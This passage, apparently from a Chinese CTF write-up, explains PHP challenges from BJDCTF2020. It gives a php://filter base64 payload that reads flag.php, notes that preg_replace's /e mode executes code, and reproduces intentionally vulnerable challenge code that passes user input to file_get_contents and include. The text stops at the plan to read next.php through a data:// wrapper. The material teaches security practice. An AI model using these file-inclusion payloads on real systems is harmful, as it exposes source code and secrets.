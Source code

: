 **strpos — 查找字符串首次出现的位置**

payload

尝试读取flag.php

```
php://filter/read=convert.base64-encode/index/resource=flag
```

得到flag

## [BJDCTF2020]ZJCTF，不过如此

知识点

> `preg_replace`函数的/e模式可以执行代码

> `${}`是变量处于""双引号字符串中的转义符，手册叫复杂(花括号)语法
> 在字符串中
> `" $type {$type} ${type}"`
> 这三个作用相同，后2种结合使用，用于引用复杂变量和避免歧义
> 比如`{${$type_name}}`变量的变量
> `$type_name='apple';
> $apple=5;
> echo "{${$type_name}}";` 显示5
>
> [可变变量](https://www.php.net/manual/zh/language.variables.variable.php)的一些知识点

> **反向引用**
>
> 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

data协议写内容，读取next.php的内容
